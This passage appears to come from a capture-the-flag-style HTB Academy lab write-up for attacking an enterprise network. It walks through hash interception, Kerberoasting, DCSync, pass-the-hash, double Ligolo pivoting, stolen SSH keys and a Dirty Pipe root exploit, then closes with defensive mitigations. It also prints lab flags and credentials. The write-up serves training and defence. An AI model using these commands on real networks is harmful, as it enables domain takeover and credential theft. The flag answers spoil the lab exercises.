#### Technical Methodology & Exploit Execution:

we will use Inveigh – hashes interception tool.
First lets get that on MS01 – we will download it on the pwnbox (save it as
Inveigh.zip), use
```bash
scp -i id_rsa Inveigh.zip
```
root@monitoring.inlanefreight.local:/root
to get it to dmz01.
Once the tool is on dmz01, lets open python listener on port 20000
```bash
python3 -m http.server 20000
```

and while the server is running on dmz01, on MS01 in
'C:\Users\ilfserveradm\Documents' , we will download the zip using the
command:
```bash
iwr -uri http://172.16.8.120:20000/Inveigh.zip -outfile
```
Inveigh.zip

when done, extract the zip:


Open a new powershell AS ADMINISTRATOR, and cd to
'C:\Users\ilfserveradm\Documents\Inveigh\Inveigh-master'.
There, we run Inveigh using the commands:


*_Figure 90.1 — Lab execution and output verification (Page 90)_*


### And run hashcat cracking with the command

#### Technical Methodology & Exploit Execution:

```bash
hashcat -m 5600 hash.txt rockyou.txt
```


*_Figure 91.1 — Lab execution and output verification (Page 91)_*


*_Figure 91.2 — Lab execution and output verification (Page 91)_*


*_Figure 91.3 — Lab execution and output verification (Page 91)_*


### Active Directory Compromise

> **Lab Question (Page 92)**: Set a fake SPN on the ttimmons user. Kerberoast this user and crack the TGS ticket offline to reveal their cleartext password. Submit this password as your answer.
>
> **Flag / Answer**: `Repeat09`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from the previous question (getting
Administrator hold on 'MS01') – we are provided with the credentials
'mssqladm:DBAilfreight1!', supposedly obtained from the active directory
environment.
Back on 'DEV01' , where we have our PowerView.ps1 in
'C:\DotNetNuke\Portals\0' – lets check for 'mssqladm' rights with the same
technique used the previous time:
```bash
Import-Module .\PowerView.ps1
```

$sid = Convert-NameToSid mssqladm

Get-DomainObjectACL -ResolveGUIDs -Identity * |
?{$_.SecurityIdentifier -eq $sid}
*reminder, command execution might take some time. *

'mssqladm' has GenericWrite rights over 'ttimmons' . (for more information on
'GenericWrite' – refer to 'Active Directory Enumeration & Attacks' - ACL
Enumeration (page 32), for our purposes – we can assign SPN on 'ttimmons'
user.


*_Figure 92.1 — Lab execution and output verification (Page 92)_*


### called 'acmetesting/LEGIT' , we will use the command

#### Technical Methodology & Exploit Execution:

Set-DomainObject -credential $Cred -Identity ttimmons -SET
@{serviceprincipalname='acmetesting/LEGIT'} -Verbose


The SPN is set and ready.
Lets attack it on the pwnbox,using the command:
GetUserSPNs.py -dc-ip 172.16.8.3
INLANEFREIGHT.LOCAL/mssqladm -request-user ttimmons


Lets put the kerberos hash in 'hash.txt' , using the rockyou.txt wordlist. we run
the command:
```bash
hashcat -m 13100 hash.txt rockyou.txt
```


*_Figure 93.1 — Lab execution and output verification (Page 93)_*


*_Figure 93.2 — Lab execution and output verification (Page 93)_*


*_Figure 93.3 — Lab execution and output verification (Page 93)_*


> **Lab Question (Page 94)**: After obtaining Domain Admin rights, authenticate to the domain controller and submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `7c09eb1fff981654a3bb3b4a4e0d176a`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

now that we have 'ttimmons' credentials – lets check what rights he
has, using the same method (on the same 'DEV01' reverse shell):
```bash
Import-Module .\PowerView.ps1
```

$sid = Convert-NameToSid ttimmons

Get-DomainObjectACL -ResolveGUIDs -Identity * |
?{$_.SecurityIdentifier -eq $sid}


'ttimmons' has GenericAll rights over Server Admins.


*_Figure 94.1 — Lab execution and output verification (Page 94)_*


*_Figure 94.2 — Lab execution and output verification (Page 94)_*


### Now lets check what rights 'Server Admins' has

Now lets check what rights 'Server Admins' has:
$sid = Convert-NameToSid "Server Admins"

Get-DomainObjectACL -ResolveGUIDs -Identity * |
?{$_.SecurityIdentifier -eq $sid}


'Server Admins' has the rights of 'DS-Replication-Get-Changes-In-Filtered-Set',
'DS-Replication-Get-Changes', 'DS-Replication-Get-Changes-All' which allow to
perform DCSync attack (for more details about the rights and the attack - refer
to the 'Active Directory Enumeration & Attacks' writeup – DCSync section, page
42).
What it means, is that we can perform DCSync attack with 'ttimmons' User
through 'Server Admins' group.
First lets exert 'ttimmons' GenricAll right to add himself to 'Server Admins' , we
will use the commands:


*_Figure 95.1 — Lab execution and output verification (Page 95)_*


*_Figure 95.2 — Lab execution and output verification (Page 95)_*


*_Figure 95.3 — Lab execution and output verification (Page 95)_*


### which now can do that. We will use the command

#### Technical Methodology & Exploit Execution:

secretsdump.py ttimmons@172.16.8.3 -just-dc-ntlm | grep
Administrator


*reminder – the NTLM hash is the second hash, separated by colon (':'), which
is the answer to the next question. *
Looking back at the nmap scan of DC01 – it has WinRM service running, we can
access that on the Administrator user, using the hash. We will use the
command:
```bash
evil-winrm -i 172.16.8.3 -u Administrator -H
```
fd1f7e5564060258ea787ddbb6e6afa2


*_Figure 96.1 — Lab execution and output verification (Page 96)_*


*_Figure 96.2 — Lab execution and output verification (Page 96)_*


### obtained its NTLM hash using 'DCSync' attack

> **Lab Question (Page 97)**: Compromise the INLANEFREIGHT .LOCAL domain and dump the NTDS database. Submit the NT hash of the Administrator account as your answer .
>
> **Flag / Answer**: `fd1f7e5564060258ea787ddbb6e6afa2`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

while obtaining the DC01 flag in the Administrator's Desktop, we
obtained its NTLM hash using 'DCSync' attack:


*_Figure 97.1 — Lab execution and output verification (Page 97)_*


*_Figure 97.2 — Lab execution and output verification (Page 97)_*


*_Figure 97.3 — Lab execution and output verification (Page 97)_*


### Post-Exploitation

> **Lab Question (Page 98)**: Gain access to the MGMT01 host and submit the contents of the flag.txt file in a user's home directory.
>
> **Flag / Answer**: `3c4996521690cc76446894da2bf7dd8f`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from the previous question (getting
Administrator hold on 'DC01' + dumping the NTDS database) – we are told that
there is this 'MGMT01' host, however such a host can not be in the internal
network we had just compromised (as we compromised all machines in that
internal network). So there must be a second internal network.
Lets run
ipconfig
in 'DC01':

The ipconfig results confirms the existence of the the network with the
interface name 'Ethernet1' which 'DC01' IP address in that network is
'172.16.9.3' .(and based on the default gateway address, we can assume the
network's address is '172.16.9.0' .


*_Figure 98.1 — Lab execution and output verification (Page 98)_*


### to see the arp table of the host

#### Technical Methodology & Exploit Execution:

1..254 | ForEach-Object { $ip = "172.16.9.$_"; if (ping -n 1
-w 200 $ip | Select-String "TTL=") { "$ip is online" } else
{ "$ip is offline" } }
To ping every host in that range:

* *

* *

there is one active host (besides our own) – 172.16.9.25. that must be
'MGMT01'.


*_Figure 99.1 — Lab execution and output verification (Page 99)_*


*_Figure 99.2 — Lab execution and output verification (Page 99)_*


*_Figure 99.3 — Lab execution and output verification (Page 99)_*


*_Figure 99.4 — Lab execution and output verification (Page 99)_*


We need to examine further that machines from the pwnbox (as there there
are all the necessary tools).
For that – the usual Ligolo process (for a single layer pivoting) will not work, as
now the pwnbox and 'MGMT01' are separated by 2 machines (dmz01 and
DC01 which in effect for this purpose serves as dmz02) – each representing its
own layer of internal network)
*Here is a small illustration I made to layout the network environment:

*
Currently, we have our ligolo pivoting from the pwnbox to 172.16.8.0 internal
network (which we used to compromise the machines 'DEV01', 'MS01', 'DC01
through 'dmz01')
What we are going to do – is to set another Ligolo setup from dmz01 (where
the proxy will be), to DC01 (where the agent will be) – to directly communicate
from dmz01 to the internal network2 ('172.16.9.0'), which includes the
'MGMT01' machine.
Then, when there are both Ligolo sets (from pwnbox to 172.16.8.0 and from
dmz01 to 172.16.9.0) – we will reconfigure the Pwnbox to combine the sets.
And allow direct communication from the pwnbox to 'MGMT01'.
The first part of the Ligolo setup (from the pwnbox to 172.16.8.0) was already
explained in full detail in 'Internal Information Gathering' section of this
writeup (page 50). I will not go through it again, and the rest of the setup will
assume this part is up and running, and all installations are set. *


*_Figure 100.1 — Lab execution and output verification (Page 100)_*


### Ok lets setup the dmz01  →  MGMT01 pivot

For the coming parts, this video is helpful for setting double ligolo pivot.
Ok lets setup the dmz01  →  MGMT01 pivot:
We will do the same process concept we did setting the original ligolo pivot.
Lets get to the pwnbox windows agent and linux proxy.
The linux proxy should already be installed in the pwnbox from the first Ligolo
setup, but just in case, it can be downloaded here.
The windows agent can be downloaded here. We will save it in the pwnbox as
'windows_agent.zip'

Lets get both tools from the pwnbox to dmz01, using the commands:
```bash
scp -i id_rsa proxy.gz
```
root@monitoring.inlanefreight.local:/root

```bash
scp -i id_rsa windows_agent.zip
```
root@monitoring.inlanefreight.local:/root


*_Figure 101.1 — Lab execution and output verification (Page 101)_*


*_Figure 101.2 — Lab execution and output verification (Page 101)_*


### Lets confirm download in the dmz01

#### Technical Methodology & Exploit Execution:

```bash
iwr -uri http://172.16.8.120:20000/windows_agent.zip -
```
outfile windows_agent.zip


We have the zip file in DC01:

Lets unzip it:
Expand-Archive -Path ".\windows_agent.zip" -DestinationPath
".\agent"
*in the destination path we remove the 'windows' , we only keet the 'agent' for
consistency. *:


*_Figure 102.1 — Lab execution and output verification (Page 102)_*


*_Figure 102.2 — Lab execution and output verification (Page 102)_*


*_Figure 102.3 — Lab execution and output verification (Page 102)_*


*_Figure 102.4 — Lab execution and output verification (Page 102)_*


### second internal network (of MGMT01)

Here is the output directory, in it the agent's executable.

Back to dmz01 – lets extract the proxy.gz and set the ligolo interface relevant ip
routes (observe that this time the network's address is '172.16.9.0' – of the
second internal network (of MGMT01):
```bash
tar -xvf proxy.gz;
sudo ip tuntap add user root mode tun ligolo;
sudo ip link set ligolo up;
sudo ip route add 172.16.9.0/24 dev ligolo;
```


Now, lets run the proxy in dmz01:
./proxy -selfcert


*_Figure 103.1 — Lab execution and output verification (Page 103)_*


*_Figure 103.2 — Lab execution and output verification (Page 103)_*


*_Figure 103.3 — Lab execution and output verification (Page 103)_*


### Back on DC01, lets execute the agent

Back on DC01, lets execute the agent:
.\agent\agent.exe -connect 172.16.8.120:11601 -ignore-cert
Observe the IP is 'dmz01' IP:


Back on the dmz01 proxy:

Lets enter:
session
1
start
as we did last time

Now we should have connection from dmz01 to 172.18.9.0, let's confirm:

We have ping!

Ok, now we have the original pivoting from the pwnbox to the internal
network1 (172.16.8.0), and from dmz01 to the internal network2(172.16.9.0).


*_Figure 104.1 — Lab execution and output verification (Page 104)_*


*_Figure 104.2 — Lab execution and output verification (Page 104)_*


*_Figure 104.3 — Lab execution and output verification (Page 104)_*


*_Figure 104.4 — Lab execution and output verification (Page 104)_*


### internal network2

#### Technical Methodology & Exploit Execution:

```bash
sudo ip route add 172.16.9.0/24 dev ligolo;
```
to add the internal network2 – 172.16.9.0/24 to the pwnbox's routing table.


Lets try again:

We have a connection from pwnbox to MGMT01!
Now we can analyze the machine using the tools in the pwnbox without
needlessly complex transfers of tools (which often get botched).


*_Figure 105.1 — Lab execution and output verification (Page 105)_*


*_Figure 105.2 — Lab execution and output verification (Page 105)_*


*_Figure 105.3 — Lab execution and output verification (Page 105)_*


### Lets run nmap scan

Lets run nmap scan:
```bash
nmap 172.16.9.25 -sV -p 1-10000
```


We are dealing with a Linux machine, with ssh open.
However we do not have any credentials, or keys to enter the machine.
Lets have a re-inspection for the share 'Department Shares' – which we already
dealt with in 'Lateral Movement' section, and is located in the folder
'C:\Department Shares'.
We already made credentials search there and found whatever credentials we
needed back then, so lets run instead a search for RSA keys. As the private key
format is known – we may expect the keywords: 'PRIVATE KEY' will appear in
the private keys, so lets look for that:
Get-ChildItem -Path "C:\Department Shares" -Recurse -
ErrorAction SilentlyContinue -Force | Select-String -Pattern
"PRIVATE KEY" -ErrorAction SilentlyContinue | Select-Object
-ExpandProperty Path -Unique


There are 3 keys,  all of which in the same 'Netowrking' folder, lets get their
content to the pwnbox (copy-paste will be the quickiest).
*note – when I did all those operations I opened a new Administrator WinRM
session to DC01, which made the old one running the ligolo agent get closes,
for the next parts – reconnect to DC01, and re-establish the double pivot from
the pwnbox to the MGMT01. *


*_Figure 106.1 — Lab execution and output verification (Page 106)_*


*_Figure 106.2 — Lab execution and output verification (Page 106)_*


### And run 'ls' to confirm flag's existence, and get the flag

When all files are transferred, we will have them on the pwnbox:

*the 'id_rsa' is the original dmz01 key. *
And run
```bash
chmod 600 *id_rsa
```


This command will change the permissions of all the keys to 600 at once.

Lets login to 'ssmallsadm' user
```bash
ssh -i ssmallsadm-id_rsa ssmallsadm@172.16.9.25
```


And run 'ls' to confirm flag's existence, and get the flag:

*The rest of the users will require a password as well as key, so nothing in
there. *


*_Figure 107.1 — Lab execution and output verification (Page 107)_*


*_Figure 107.2 — Lab execution and output verification (Page 107)_*


*_Figure 107.3 — Lab execution and output verification (Page 107)_*


*_Figure 107.4 — Lab execution and output verification (Page 107)_*


### session) the command

> **Lab Question (Page 108)**: Escalate privileges to root on the MGMT01 host. Submit the contents of the flag.txt file in the /root directory.
>
> **Flag / Answer**: `206c03861986c0e264438cb6e8e90a19`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

among other methods, we will run in 'MGMT01' ('ssmallsadm'
session) the command:
uname -a
to get grasp on the OS versions, including the kernel version:

*we can also run 'uname -r' to get ONLY the kernel version:

*
The kernel vesion is 5.10.0-051000-generic.
Referring to 'Linux Privilge Escelation' writeup – this kernel version is
vulnerable to 'Dirty Pipe' vulnerability (CVE-2022-0847) (page 11 in the
writeup).
Lets download the exploit here, unzip the download

We copy the content of 'exploit-1.c' (we can use both 'exploit-1.c' and 'exploit-
2.c' and both will work – however 'exploit-1' is quicker).
and in MGMT01, we create a new file with the same name 'exploit-1.c',
we open it with vim:
vim exploit-1.c


*_Figure 108.1 — Lab execution and output verification (Page 108)_*


*_Figure 108.2 — Lab execution and output verification (Page 108)_*


*_Figure 108.3 — Lab execution and output verification (Page 108)_*


### and run

enter 'i' for insert mode, and paste the copied c code to the file

Exit from insert mode with 'ctrl +c'
Save (':wa!' – then :q to quit)
compile
gcc exploit-1.c -o exploit-1
and run:

The execution will spawn for us root shell, we confirm we are root with
'whoami', and then we simply cat the flag from '/root/flag.txt'.


*_Figure 109.1 — Lab execution and output verification (Page 109)_*


*_Figure 109.2 — Lab execution and output verification (Page 109)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1021, T1090, T1078.002` |
| **Common Weakness Enumerations** | `CWE-284, CWE-200` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1021`](https://attack.mitre.org/techniques/T1021/) | **Remote Services** | `Lateral Movement` | Traversing network segments via WinRM, SSH, RDP, and WMI |
| [`T1090`](https://attack.mitre.org/techniques/T1090/) | **Proxy** | `Command and Control` | Deploying multi-hop proxy chains across segmented zones |
| [`T1078.002`](https://attack.mitre.org/techniques/T1078/) | **Valid Accounts: Domain Accounts** | `Defense Evasion` | Using compromised service credentials to cross trust boundaries |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-284`: Improper Access Control in Network Architectures](https://cwe.mitre.org/data/definitions/284.html)
- [`CWE-200`: Exposure of Sensitive Information Across Subnets](https://cwe.mitre.org/data/definitions/200.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Implement Zero Trust Network Access (ZTNA) requiring explicit authentication and continuous posture checks per connection.
- Deploy internal east-west network IDS/IPS sensors to detect lateral movement protocols traversing internal VLANs.
- Enforce tiering administration models (Tier 0 / Tier 1 / Tier 2) preventing domain admin credentials from touching lower-tier workstations.


---

## Authoritative References & Recommended Reading

- [HTB Academy: Attacking Enterprise Networks](https://academy.hackthebox.com/module/164) — *Official Hack The Box curriculum track*
- [NIST SP 800-207: Zero Trust Architecture](https://csrc.nist.gov/publications/detail/sp/800-207/final) — *Authoritative zero trust guidance*
- [MITRE ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/) — *Global knowledge base of adversary tactics and techniques*
- [Microsoft Security Documentation: Enterprise Access Model](https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-access-model) — *Privileged access management guidance*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-12-active-directory-enumeration-and-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 12: Active Directory Enumeration & Domain Attacks</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 13 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-14-using-web-proxies/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 14: Using Web Proxies (Burp Suite & ZAP)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>
